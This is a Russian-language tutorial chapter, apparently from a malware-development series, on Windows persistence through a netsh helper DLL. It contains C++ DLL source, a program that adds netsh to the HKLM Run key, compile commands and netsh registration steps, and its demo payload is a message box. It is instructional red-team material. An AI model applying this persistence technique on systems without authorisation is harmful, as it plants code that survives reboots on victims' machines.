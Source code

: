 \newpage
\subsection{72. Разработка вредоносного ПО: закрепление (persistence) - часть 6. Windows netsh helper DLL. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![pers](./images/56/2022-05-29_15-24_1.png){width="80%"}    

Этот раздел является продолжением серии статей о техниках и трюках о закреплении вредоносного ПО в Windows.    

Сегодня я расскажу о результате собственного исследования ещё одного метода закрепление в системе Windows: Netsh Helper DLL.    

### netsh

**Netsh** - это утилита Windows, которую администраторы могут использовать для настройки встроенного брандмауэра Windows и выполнения задач по конфигурации сети. Функциональность Netsh можно расширять с помощью DLL-файлов.

Эта возможность позволяет красным командам загружать произвольные DLL-файлы для выполнения кода и, следовательно, обеспечения закрепления с использованием этого инструмента. Однако для реализации данной техники требуются права локального администратора.

### практический пример

Рассмотрим практический пример. Сначала создадим вредоносную DLL:

```cpp
/*
evil.cpp
простая DLL для netsh
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/29/malware-pers-6.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

extern "C" __declspec(dllexport) 
DWORD InitHelperDll(
DWORD dwNetshVersion, PVOID pReserved) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Скомпилируем её:

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

![pers](./images/56/2022-05-29_15-12.png){width="80%"}    

Затем передаём DLL на целевую машину жертвы.

Netsh взаимодействует с другими компонентами операционной системы через файлы динамических библиотек (DLL). Каждая вспомогательная DLL netsh предлагает полный набор функций. Функциональность Netsh можно расширить, используя DLL:

```powershell
reg query "HKLM\Software\Microsoft\NetSh" /s
```

![pers](./images/56/2022-05-29_15-20.png){width="80%"}    

Затем можно использовать команду `add helper`, чтобы зарегистрировать DLL в утилите `netsh`:

```powershell
netsh
add helper Z:\2022-05-29-malware-pers-6\evil.dll
```

![pers](./images/56/2022-05-29_15-23.png){width="80%"}    

![pers](./images/56/2022-05-29_15-24.png){width="80%"}    

Всё работает идеально!

Однако `netsh` по умолчанию не запускается автоматически. Для обеспечения закрепления на хосте можно создать ключ реестра, который выполнит приложение при запуске Windows. Это можно сделать с помощью следующего скрипта:

```cpp
/*
pers.cpp
windows persistence via netsh helper DLL
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/29/malware-pers-6.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // netsh
  const char* netsh = "C:\\Windows\\SysWOW64\\netsh";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"hack", 
    0, REG_SZ, (unsigned char*)netsh, strlen(netsh));
    RegCloseKey(hkey);
  }
  return 0;
}
```

Как видите, этот скрипт похож на тот, что я использовал в своем посте о [закреплении через ключи реестра Run keys](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html).

Проверяем ключи реестра Run:

```powershell
reg query \
"HKLM\Software\Microsoft\Windows\CurrentVersion\Run" \
 /s
```

![pers](./images/56/2022-05-29_15-18.png){width="80%"}    

Компилируем скрипт:

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/56/2022-05-29_15-14.png){width="80%"}    

Запускаем на машине жертвы:      

```powershell
.\pers.exe
```

![pers](./images/56/2022-05-29_15-21.png){width="80%"}    

Когда команда `add helper` выполняется для загрузки DLL, создаётся следующий ключ реестра:     

![pers](./images/56/2022-05-29_15-25.png){width="80%"}    

Однако есть одна оговорка. Логика PoC требует обновления, чтобы создать новый поток, позволяя netsh продолжать работу, пока выполняется вредоносный код. Однако, когда netsh завершается, прекращается и выполнение вредоносного кода.

Давайте попробуем это исправить. Создадим новую DLL (`evil2.cpp`):

```cpp
/*
evil2.cpp
simple DLL for netsh
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/29/malware-pers-6.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

DWORD WINAPI Meow(LPVOID lpParameter) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 1;
}

extern "C" __declspec(dllexport) 
DWORD InitHelperDll(
DWORD dwNetshVersion, PVOID pReserved) {
  HANDLE hl = CreateThread(NULL, 0, Meow, NULL, 0, NULL);
  CloseHandle(hl);
  return 0;
}
```

Компилируем:

```bash
x86_64-w64-mingw32-gcc -shared -o evil2.dll evil2.cpp -fpermissive
```

![pers](./images/56/2022-05-29_16-21.png){width="80%"}    

Повторяем шаги снова:

```powershell
netsh
add helper Z:\2022-05-29-malware-pers-6\evil2.dll
```

![pers](./images/56/2022-05-29_16-23.png){width="80%"}    

Как видите, всё работает, `netsh` остаётся доступным. Проверим ключ реестра для проверки:

```powershell
reg query "HKLM\Software\Microsoft\NetSh" /s
```

![pers](./images/56/2022-05-29_16-23_1.png){width="80%"}    

Так как этот метод основан на эксплуатации системных функций, его сложно предотвратить с помощью стандартных защитных механизмов.

[netsh](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts)    
[MITRE ATT&CK: Netsh Helper DLL](https://attack.mitre.org/techniques/T1546/007/)    
[исходный код на github](https://github.com/cocomelonc/2022-05-29-malware-pers-6)    
